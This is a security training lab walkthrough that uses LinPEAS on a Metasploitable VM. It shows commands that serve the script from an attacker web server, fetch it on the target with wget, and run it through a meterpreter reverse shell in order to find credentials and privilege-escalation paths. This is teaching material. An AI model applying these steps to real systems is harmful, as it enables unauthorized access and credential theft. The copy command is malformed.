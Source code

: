 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use LinPEAS to enumerate for privilege escalation on a Linux target.

This is just one of the labs you can follow from our [101 Labs – CompTIA Security+ video course](https://www.101labs.net/courses/101-labs-comptia-security/). Access includes all lab courses and practice exams as well as live Cisco racks 24/7.

**Lab Purpose:**

LinPEAS is a script which will search for all possible paths to escalate privileges on Linux hosts.

**Lab Tool:**

Kali Linux and Metasploitable.

**Lab Topology:**

You can use Kali Linux in a VM and Metasploitable Linux VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be looking at how to use LinPEAS to enumerate a Linux target for all possible privilege escalation opportunities. We will download  PEAS (Privilege Escalation Awesome Scripts) from the internet. First, make sure that your Kali VM is currently connected to a network that has access to the internet. Now, open a terminal screen and type the following command in a single line:

git clone [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)

![LinPEAS](attachements/LinPEAS-1.png)

This will download all the scripts and tools you need. For this lab, we will be focusing on LinPEAS, which is the script for enumerating on Linux targets.

Once downloaded, navigate to the directory containing the file linpeas.sh. You can locate this file by typing the following into a terminal (1):

![LinPEAS](attachements/LinPEAS.png)

find . -iname “linpeas.sh”

This will show you the exact location of the file. Copy this file to the document root of nginx web server, which is ”/var/www/html”:

suite/linPEAS/linpeas.sh  /var/www/html

Then, start the nginx web server. To do this, open a terminal screen and type the following command:

sudo nginx

We are doing this because we will later download this file from the target Metasploitable Linux VM. In a real life scenario, this would be done using a phishing email or some other form of social engineering. For this lab, simply transfer the file to your Metasploitable Linux VM.

### Task 2:

We will need to establish a basic shell on the target. First, put Kali VM into same “Host-Only Network” with target Metasploitable Linux VM again to isolate attacks/scans from your real network.

Then, create a reverse shell payload using msfvenom, transfer this file to the Metasploitable Linux VM target, establish a Metasploit listener in Kali VM, and execute the payload on target machine. Refer to lab 75 for more information.

![LinPEAS](attachements/LinPEAS-2.png)

So, we now have a meterpreter shell on our target!

### Task 3:

Switch to the text console of your Metasploitable Linux VM. Download the linpeas.sh file from the Kali VM, then make it executable by typing the following commands:

wget http://192.168.56.103/linpeas.sh

chmod +x linpeas.sh

![LinPEAS](attachements/LinPEAS-3.png)

Once on the Linux machine, we can easily execute the script. In Meterpreter, type the following to get a shell on our Linux machine:

shell

![Meterpreter](attachements/Meterpreter-11.png)

Once interacting with the shell, we can execute the script by navigating to the directory where we saved the file and then typing the following:

./linpeas.sh > results.txt

After running command, LinPEAS goes through the entire system looking for various privilege escalation methods available and write all output to a text file, results.txt. If “linpeas.sh” didn’t work, make sure it is executable. You can make this file executable by typing “chmod + x linpeas.sh” within this meterpreter shell.

LinPEAS will look for a massive amount of information to provide us with a comprehensive list of options with regards to privilege escalation. Some of the information gathered include hidden files, files with specific names in them such as “password” or “credential”, interesting files with potential passwords, credentials for services such as apache2, mail usernames and passwords, etc. Let’s look at the contents of this file now. Type this command in the same shell:

cat results.txt

LinPEAS colour-codes the information it provides us, with items in red indicating the strongest possibility of privilege escalation.

![Meterpreter](attachements/Meterpreter-10.png)

![Meterpreter](attachements/Meterpreter-10.png)

![Meterpreter](attachements/Meterpreter-12.png)

![Meterpreter](attachements/Meterpreter-13.png)